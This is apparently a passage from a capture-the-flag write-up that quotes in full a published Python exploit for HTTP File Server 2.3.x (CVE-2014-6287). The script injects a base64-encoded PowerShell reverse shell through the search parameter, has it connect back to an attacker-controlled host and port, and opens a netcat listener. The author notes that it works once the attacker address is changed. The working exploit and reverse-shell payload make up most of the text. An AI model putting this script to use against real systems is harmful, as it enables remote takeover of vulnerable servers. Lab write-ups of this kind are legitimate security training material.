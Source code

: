 Using the `-x` option to exermine the first RCE.

```py
# Exploit Title: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 20/02/2021
# Exploit Author: Pergyz
# Vendor Homepage: http://www.rejetto.com/hfs/
# Software Link: https://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Microsoft Windows Server 2012 R2 Standard
# CVE : CVE-2014-6287
# Reference: https://www.rejetto.com/wiki/index.php/HFS:_scripting_commands

#!/usr/bin/python3

import base64
import os
import urllib.request
import urllib.parse

lhost = "10.10.10.1"
lport = 1111
rhost = "10.10.10.8"
rport = 80

# Define the command to be written to a file
command = f'$client = New-Object System.Net.Sockets.TCPClient("{lhost}",{lport}); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{{0}}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){{; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}}; $client.Close()'

# Encode the command in base64 format
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
print("\nEncoded the command in base64 format...")

# Define the payload to be included in the URL
payload = f'exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand {encoded_command}'

# Encode the payload and send a HTTP GET request
encoded_payload = urllib.parse.quote_plus(payload)
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
urllib.request.urlopen(url)
print("\nEncoded the payload and sent a HTTP GET request to the target...")

# Print some information
print("\nPrinting some information for debugging...")
print("lhost: ", lhost)
print("lport: ", lport)
print("rhost: ", rhost)
print("rport: ", rport)
print("payload: ", payload)

# Listen for connections
print("\nListening for connection...")
os.system(f'nc -nlvp {lport}')
```
This looks like it was created just for this box. Running this will definatly get me a shell, I just need to change the `lhost`. But nope I dont want the easy way out so I will take the `CVE-2014-6287` and try this the manual way.
